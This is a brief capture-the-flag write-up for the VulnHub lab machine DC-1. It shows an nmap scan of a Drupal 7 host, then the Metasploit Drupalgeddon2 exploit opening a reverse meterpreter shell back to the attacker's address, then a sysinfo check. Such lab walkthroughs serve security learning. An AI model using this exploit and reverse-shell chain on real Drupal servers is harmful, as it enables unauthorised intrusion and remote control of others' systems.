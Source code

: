 # DC-1: 1  
  
**URL: https://www.vulnhub.com/entry/dc-1-1,292/**  
  
### NMAP  
  
root@kali:~# nmap -A 192.168.111.3  
>Starting Nmap 7.70 ( hxxps://nmap.org ) at 2019-04-16 09:30 CDT  
>mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers  
>Nmap scan report for 192.168.111.3  
>Host is up (0.00064s latency).  
>Not shown: 997 closed ports  
>PORT    STATE SERVICE VERSION  
>22/tcp  open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)  
>| ssh-hostkey:   
>|   1024 c4:d6:59:e6:77:4c:22:7a:96:16:60:67:8b:42:48:8f (DSA)  
>|   2048 11:82:fe:53:4e:dc:5b:32:7f:44:64:82:75:7d:d0:a0 (RSA)  
>|_  256 3d:aa:98:5c:87:af:ea:84:b8:23:68:8d:b9:05:5f:d8 (ECDSA)  
>80/tcp  open  http    Apache httpd 2.2.22 ((Debian))  
>|_http-generator: Drupal 7 (hxxp://drupal.org)  
>| http-robots.txt: 36 disallowed entries (15 shown)  
>| /includes/ /misc/ /modules/ /profiles/ /scripts/   
>| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt   
>| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt   
>|_/LICENSE.txt /MAINTAINERS.txt  
>|_http-server-header: Apache/2.2.22 (Debian)  
>|_http-title: Welcome to Drupal Site | Drupal Site  
>111/tcp open  rpcbind 2-4 (RPC #100000)  
>| rpcinfo:   
>|   program version   port/proto  service  
>|   100000  2,3,4        111/tcp  rpcbind  
>|   100000  2,3,4        111/udp  rpcbind  
>|   100024  1          48991/tcp  status  
>|_  100024  1          59019/udp  status  
  
### DRUPAL  
  
Once we see that is running drupal version 7, it is pretty straight forward:  
  
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > run  
  
>\[\*\] Started reverse TCP handler on 192.168.111.5:4444   
>\[\*\] Drupal 7 targeted at hxxp://192.168.111.3/  
>\[\-\] Could not determine Drupal patch level  
>\[\*\] Sending stage (38247 bytes) to 192.168.111.3  
>\[\*\] Meterpreter session 1 opened (192.168.111.5:4444 -> 192.168.111.3:52352) at 2019-04-16 09:35:13 -0500  
  
meterpreter > sysinfo  
>Computer    : DC-1  
>OS          : Linux DC-1 3.2.0-6-486 #1 Debian 3.2.102-1 i686  
>Meterpreter : php/linux  

